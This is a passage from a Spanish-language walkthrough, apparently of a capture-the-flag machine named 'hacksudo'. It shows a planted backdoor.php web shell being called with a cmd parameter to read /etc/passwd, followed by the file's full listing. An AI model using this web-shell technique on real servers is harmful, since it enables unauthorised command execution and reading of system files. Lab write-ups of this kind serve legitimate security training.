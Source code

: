 Y le damos a la opcion de `Go`...

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos a la `URL` donde le hemos dicho que lo cree...

```
URL = http://<IP>/backdoor.php
```

Veremos una pagina en blanco, por lo que significa que el archivo existe, ahora si hacemos lo siguiente...

```
URL = http://<IP>/backdoor.php?cmd=cat /etc/passwd
```

Veremos el archivo `passwd`...

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
hacksudo:x:1000:1000:hacksudo,,,:/home/hacksudo:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:117:65534::/run/sshd:/usr/sbin/nologin
mysql:x:118:126:MySQL Server,,,:/nonexistent:/bin/false
```